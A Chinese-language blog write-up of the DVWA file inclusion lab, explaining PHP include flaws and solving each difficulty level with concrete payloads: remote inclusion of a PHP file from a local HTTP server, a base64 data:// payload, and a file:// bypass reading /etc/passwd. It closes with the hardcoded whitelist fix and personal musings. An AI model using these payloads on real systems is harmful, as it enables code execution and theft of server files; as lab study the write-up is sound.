







## 前言

这次玩一下 DVWA 的文件包含。

## 原理

### PHP和include

在 php 语言中 `include` 表达式用于包含指定的文件，写过 C/C++ 应该对 `#include` 预处理指令比较熟，php 的 `include` 表达式和 `#include` 在某种程度上很相似，都是从指定的搜索路径里找到文件并“包含”进来。被包含的文件可以是 php 文件也可以是别的文件，这点和 `#include` 预处理器比较像。

然后，因为 `include` 可以写做表达式的缘故，在 php 里可以 `include $file`，如果把用户传入的数据未经过检查就交给 `include` 的话就可能产生一个文件包含漏洞。

> 当一个文件被包含时，语法解析器在目标文件的开头脱离 PHP 模式并进入 HTML 模式，到文件结尾处恢复。由于此原因，目标文件中需要作为 PHP 代码执行的任何代码都必须被包括在[有效的 PHP 起始和结束标记](https://www.php.net/manual/zh/language.basic-syntax.phpmode.php)之中。

解释器的这个行为进一步拓宽了可利用的范围。

> 如果“[URL include wrappers](https://www.php.net/manual/zh/filesystem.configuration.php#ini.allow-url-include)”在 PHP 中被激活，可以用 URL（通过 HTTP 或者其它支持的封装协议——见[支持的协议和封装协议](https://www.php.net/manual/zh/wrappers.php)）而不是本地文件来指定要被包含的文件。

对 `include` 参数有足够控制的情况下，可以利用远程包含来执行任意代码。挑选合适的 url 协议可以 bypass 不够严谨的参数检查。

### 本地文件包含

本地文件包含一般可以是 `include "some/folder/" . $_GET["file"] . ".php"` 或类似的形式，此时可以通过 `file=../../malicious` 这样的 payload 来包含任意代码。

### 远程文件包含

此时对 `include` 参数有更强的控制，也可以通过 url 协议来远程包含 php 代码执行。或者 `zlib://` 之类的协议直接把要执行的代码放在 payload 里。

## 文件包含

### 信息收集


页面没有什么特别的，点击上面的 `file1.php`、`file2.php`、`file3.php` 能分别看到三个不同的子页面：







注意地址栏会发现有意思的地方：

- 首页：http://localhost:8080/vulnerabilities/fi/?page=index.php
- file1：http://localhost:8080/vulnerabilities/fi/?page=file1.php
- file2：http://localhost:8080/vulnerabilities/fi/?page=file2.php
- file3：http://localhost:8080/vulnerabilities/fi/?page=file3.php

很直接地想到 `index.php`、`file1.php`、`file2.php`、`file3.php`就是被包含的文件了。尝试提交一个 `page=file4.php`，发现彩蛋。



直接观察 dvwa 源码，可以发现 `include` 出现的位置是 `dvwa/vulnerabilities/fi/index.php` 里，`php.ini` 配置的 `include_path` 应该是包含当前目录 `.` 的，所以可以直接取相对路径包含任意文件。

差不多就是这样了。

### Low难度

因为已经有一个 phpinfo 页面，我们先尝试包含一下。


好的，直接成功。下一个问题是怎么 get shell。考虑服务在 docker 内，apache 的日志都链接到了 `/dev/stdout` 和 `/dev/stderr`，通过包含日志来执行代码是不行了。上传文件暂不考虑（因为还没开始做任意文件上传），故考虑下远程文件包含和利用url协议。

先试一下远程文件包含。`python3 -m http.server`开个 http 服务器，下面放个 `2.php`，然后构造 url：`http://localhost:8080/vulnerabilities/fi/?page=http://172.17.0.1:8000/2.php`



成功。

### 提高难度：Medium

看看 Medium 难度下的代码。

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```

用 `str_replace` 替换掉了 `../` 和 `http://` 来解决目录穿越和 http 文件包含。但 php 支持的 url 协议显然不止这俩...

改成`data://`协议，重写一个 payload：`http://localhost:8080/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=`。这段 base64 是 ` echo '<?php phpinfo(); ?>' | base64` 产生的。



成功。

### 提高难度：High

High 难度下使用了 `fnmatch` 匹配文件名，但模式是 `file*`，所以还是有完蛋的可能。

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

先试一下能不能用`file://`来 bypass 掉这个模式匹配。



好的，成功 bypass 掉了这个模式，并且包含 `/etc/passwd` 成功了。不过`/etc/shadow`就没权限了。

后续利用需要一个值得被包含的文件，如果服务器上有 mysql 配置之类的文件而且能读的话包含也不错。如果有上传点的话可以尝试传个马再包含。

我太菜，虽然本地文件包含找出来了，想不到怎么用服务器上已有的文件去 get shell，日志包含又不可用。

### 帮助文档

差不多三个难度都解好了，接着看下帮助文档拓宽下思路。

> **Objective**
>
> Read all five famous quotes from '[../hackable/flags/fi.php](http://localhost:8080/hackable/flags/fi.php)' using only the file inclusion.

哦？目标是获取 `hackable`下的 flag。稍改下 payload 很快就拿到了`fi.php`的内容。

> 1.) Bond. James Bond 2.) My name is Sherlock Holmes. It is my business to know what other people don't know.
>
> --LINE HIDDEN ;)--
>
> 4.) The pool on the roof must have a leak.

这个 `LINE HIDDEN` 有点怪，不是说 `five famous quotes` 吗，这只有4条。于是看了眼 `fi.php`，发现是这样的=。=并不是没完全拿到flag。我寻思要完全拿到的话可以在 get shell 之后把 `fi.php` 下载下来，不然单纯包含这个文件肯定是不行的。

impossible 难度代码长这样：

```php
// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
	// This isn't the page we want!
	echo "ERROR: File not found!";
	exit;
}
```

硬编码了所有可能的文件，如此一来就没有利用空间了。

## 总结

文件包含这题感觉有点emmm

怎么说呢，DVWA的题好像都有点简单过头的样子=。=虽然我是这么想但感觉作为一个才开始接触安全方面，学习时间一星期不到的人来说说出这话有点不应该，膨胀了。

因为种种原因吧，感觉今年的自己特别焦躁。工资还只有这么点，事事不顺。一边劝自己知足，换工作不会改善现状，一边又焦虑自己一无所成。

烦心。